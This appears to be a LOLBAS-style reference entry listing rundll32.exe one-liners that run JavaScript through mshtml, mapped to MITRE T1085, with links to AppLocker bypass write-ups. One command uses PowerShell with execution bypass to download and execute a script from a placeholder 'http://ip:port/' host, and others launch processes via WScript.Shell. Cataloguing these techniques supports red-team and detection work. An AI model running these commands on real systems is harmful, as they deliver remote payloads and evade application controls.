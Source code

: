 ## Rundll32.exe
```

rundll32.exe AllTheThingsx64,EntryPoint
AllTheThingsx64 would be a .DLL file and EntryPoint would be the name of the entry point in the .DLL file to execute.

rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run(powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString("http://ip:port/");
Use Rundll32.exe to execute a JavaScript script that runs a PowerShell script that is downloaded from a remote web site.

rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new%20ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");
Use Rundll32.exe to execute a JavaScript script that runs calc.exe.

rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WScript.Shell").run("calc.exe",0,true);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}
Use Rundll32.exe to execute a JavaScript script that runs calc.exe and then kills the Rundll32.exe process that was started.
```
* Windows binary: True   
* Bypasses Default AppLocker Rules: False   
* Mitre: [T1085](https://attack.mitre.org/wiki/Technique/T1085)   
   
* Links:   
  * https://pentestlab.blog/2017/05/23/applocker-bypass-rundll32/
  * https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_7
  * https://oddvar.moe/2017/12/13/applocker-case-study-how-insecure-is-it-really-part-1/
  * https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/
   
* File path:   
  * C:\Windows\System32\rundll32.exe
  * C:\Windows\SysWOW64\rundll32.exe
   
* Acknowledgement:   
  * Name: Casey Smith
    * Twitter: [@Subtee](https://twitter.com/@Subtee)
    * Blog: https://subt0x11.blogspot.com/
   
OS:  
- [x] Windows 10 1703
